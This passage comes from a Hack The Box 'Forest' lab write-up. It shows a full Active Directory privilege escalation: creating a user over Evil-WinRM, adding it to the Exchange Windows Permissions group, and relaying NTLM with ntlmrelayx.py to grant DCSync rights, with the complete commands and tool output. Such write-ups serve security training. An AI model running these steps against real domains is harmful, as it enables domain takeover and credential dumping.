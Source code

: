 To perform the privilege escalation attack, we need create a new user and add it to the `Exchange Windows Permissions` group.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user shiro password /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" shiro /add
The command completed successfully.
```

Now, we have to use `ntlmrelayx.py` and `privexchange.py` to escalate the created user (both are already included in Kali). 

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user shiro
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Servers started, waiting for connections
...
```

From here, we can visit our own NTLM server on a browser at `http://localhost/privexchange` or `http://127.0.0.1/privexchange` to login with our newly created account!

Upon logging in, the script will attempt to add a `DCSync` privilege to the our user.

```bash
...
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /privexchange
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /privexchange
[*] HTTPD: Client requested path: /privexchange
[*] Authenticating against ldap://10.10.10.161 as \shiro SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /favicon.ico
[*] HTTPD: Client requested path: /favicon.ico
[*] HTTPD: Client requested path: /favicon.ico
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User shiro now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20220715-115928.restore
[*] Authenticating against ldap://10.10.10.161 as \shiro SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
```